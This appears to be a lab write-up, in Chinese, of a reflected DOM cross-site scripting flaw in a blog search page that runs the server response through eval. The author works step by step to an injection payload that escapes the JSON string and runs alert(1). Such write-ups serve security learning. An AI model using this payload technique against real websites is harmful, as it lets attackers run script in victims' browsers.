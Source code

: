 ```javascript=
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}

```

直覺 `eval('var searchResultsObj = ' + this.responseText);` 很可疑

直接對他下斷點搜尋 `meow` 觀察結果

他的 `this.responseText` 值會是 
```
{"results":[],"searchTerm":"meow"}
```

所以我的 Payload 如果輸入
```
meow"} + alert(1); //
```

他的完整會變成
```
{"results":[],"searchTerm":"meow\"} + alert(1); //"}
```

發現 `meow` 後面的 `"` 被 Escape 了

最終 Payload

```
meow\"} + alert(1); //
```
